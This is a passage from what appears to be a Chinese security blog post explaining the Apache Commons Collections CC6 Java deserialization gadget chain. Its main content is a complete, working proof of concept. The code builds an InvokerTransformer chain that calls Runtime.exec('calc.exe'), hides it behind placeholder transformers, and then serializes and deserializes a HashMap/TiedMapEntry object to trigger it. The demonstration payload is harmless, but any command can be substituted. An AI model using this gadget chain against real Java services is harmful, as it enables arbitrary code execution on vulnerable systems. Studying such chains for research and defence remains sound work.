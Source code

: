 这里利用了`fakeTransformers`先填入`outerMap`中占位，防止在生成POC的过程中触发，最后可以通过获取字段替换成真正的`transformers`达成恶意POC；而这里的`ConstantTransformer(1)`我觉得是为了防止奇奇怪怪的错误，如果没有加的话，会出现`NoSerialzableException`：

![](https://image.silente.top/img/s192.png)

然后是`TiedMapEntry`构造：

```java
TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "value");
Map hashMap = new HashMap();
hashMap.put(tiedMapEntry, "foo");
```

这里一个要注意的点是当直接使用真正的`transformers`生成POC时会在`HashMap.put`方法触发，并且会在`hashMap`中添加一个值为`value`的`key`所以会导致后续POC不能触发，所以在`put`后需要`remove`掉`value`。

完整 POC：

```java
//LazyMap构造
Transformer[] fakeTransformers = new Transformer[] {
        new ConstantTransformer(1)
};
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",
                new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }
        ),
        new InvokerTransformer("invoke",
                new Class[] {Object.class, Object[].class },
                new Object[] { null, new Object[0] }
        ),
        new InvokerTransformer("exec",
                new Class[] { String.class },
                new String[] { "calc.exe" }
        ),
        new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(fakeTransformers);
Map<Object, Object> innerMap = new HashMap<>();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);

//TiedMapEntry & HashMap 构造
TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "value");
HashMap hashMap = new HashMap();
hashMap.put(tiedMapEntry, "foo");
outerMap.remove("value");

Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);

ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("attack.ser"));
oos.writeObject(hashMap);
oos.close();

ObjectInputStream ois = new ObjectInputStream(new FileInputStream("attack.ser"));
ois.readObject();
ois.close();
```
